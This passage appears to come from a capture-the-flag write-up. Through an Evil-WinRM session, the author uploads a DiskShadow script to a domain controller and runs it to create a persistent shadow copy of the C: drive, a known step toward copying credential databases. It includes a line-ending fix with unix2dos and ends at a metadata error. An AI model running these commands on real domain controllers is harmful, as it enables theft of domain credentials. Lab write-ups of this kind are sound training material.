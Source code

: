 

I'll upload that and run it. The article recommended running out of
C:\\windows\\system32:



    *Evil-WinRM* PS C:\windows\system32> upload vss.dsh c:\programdata\vss.dsh
    Info: Uploading vss.dsh to c:\programdata\vss.dsh


    Data: 104 bytes of 104 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\windows\system32> diskshadow /s c:\programdata\vss.dsh
    Microsoft DiskShadow version 1.0
    Copyright (C) 2013 Microsoft Corporation
    On computer:  DC01,  6/9/2020 8:49:56 PM

    -> set context persistent nowriter

    SET CONTEXT { CLIENTACCESSIBLE | PERSISTENT [ NOWRITERS ] | VOLATILE [ NOWRITERS ] }

            CLIENTACCESSIBLE        Specify to create shadow copies usable by client versions of Windows.
            PERSISTENT              Specify that shadow copy is persist across program exit, reset or reboot.
            PERSISTENT NOWRITERS    Specify that shadow copy is persistent and all writers are excluded.
            VOLATILE                Specify that shadow copy will be deleted on exit or reset.
            VOLATILE NOWRITERS      Specify that shadow copy is volatile and all writers are excluded.

            Example: SET CONTEXT CLIENTACCESSIBLE



It took me a few minutes to catch the error here. It's breaking on the
first line. Eventually I noticed that it was failing on the line ending
with `nowriter`, but my input ended with `nowriters` (notice the `s`).
That got me thinking it might have to do with endlines. I ran `unix2dos`
on my local host and uploaded it again.



    root@kali# unix2dos vss.dsh 
    unix2dos: converting file vss.dsh to DOS format...



Now I'll upload and run:



    *Evil-WinRM* PS C:\windows\system32> upload vss.dsh c:\programdata\vss.dsh
    Info: Uploading vss.dsh to c:\programdata\vss.dsh

                                                                 
    Data: 108 bytes of 108 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\windows\system32> diskshadow /s c:\programdata\vss.dsh
    Microsoft DiskShadow version 1.0
    Copyright (C) 2013 Microsoft Corporation
    On computer:  DC01,  6/9/2020 9:05:54 PM

    -> set context persistent nowriters
    -> add volume c: alias df
    -> create
    Alias df for shadow ID {6e34c6ee-0d9d-4d6a-bebb-d3a576e30542} set as environment variable.
    Alias VSS_SHADOW_SET for shadow set ID {5d0763c6-f22d-4338-87b2-96e7251a097e} set as environment variable.
    Could not create .cab metadata file. If the metadata file name was specified using
    SET METADATA, the file or directory path name may not be valid.
